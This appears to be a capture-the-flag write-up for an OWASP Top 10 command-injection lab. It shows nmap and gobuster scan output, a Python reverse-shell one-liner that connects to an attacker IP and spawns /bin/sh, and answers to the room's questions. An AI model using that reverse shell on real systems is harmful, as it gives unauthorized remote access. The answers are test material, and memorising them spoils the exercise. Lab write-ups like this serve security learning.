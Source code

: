 # Injection - owasp top 10

```
export IP=10.10.253.224
```

- As usual, i'm some recon(nmap scan). Want to know the services running on the machine before i start thinking about what to do with it.
Results from nmap scan.
```
Starting Nmap 7.70 ( https://nmap.org ) at 2020-07-13 23:42 GMT                                      
Stats: 0:01:12 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan                      
SYN Stealth Scan Timing: About 99.99% done; ETC: 23:43 (0:00:00 remaining)                           
Nmap scan report for 10.10.253.224
Host is up (0.32s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                    
| ssh-hostkey:
|   2048 cc:44:30:82:07:0e:5d:1d:9a:2f:9e:c7:c5:58:78:c8 (RSA)                                       
|   256 73:70:7a:38:45:76:cb:77:ee:bd:a7:a0:b7:33:72:1d (ECDSA)                                      
|_  256 cc:3e:1a:08:c1:40:7a:3a:c4:52:65:3f:64:f0:c9:95 (ED25519)                                    
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))                                                  
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: !!WIP!! - Directory Search
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel                                              

Service detection perfo	rmed. Please report any incorrect results at https://nmap.org/submit/ .       
Nmap done: 1 IP address (1 host up) scanned in 124.99 seconds                                        

```


- Now a gobuster scan to detect some common directories.
Didn't bring back anything useful :(.

```

=====================================================                                                
Gobuster v2.0.1              OJ Reeves (@TheColonial)                                                
=====================================================                                                
[+] Mode         : dir
[+] Url/Domain   : http://10.10.253.224:80/
[+] Threads      : 10
[+] Wordlist     : /opt/wordlist/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================                                                
2020/07/13 23:58:14 Starting gobuster
=====================================================                                                
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/css (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/server-status (Status: 403)
=====================================================                                                
2020/07/14 00:00:16 Finished
=====================================================                                                

```

- python reverse shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.29.246",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

1. What strange text file is in the website root directory?
```
drpepper.txt
```

2. How many non-root/non-service/non-daemon users are there?
```
0
```

3. What user is this app running as?
```
www-data
```

4. What is the user's shell set as?
```
/usr/sbin/nologin
```

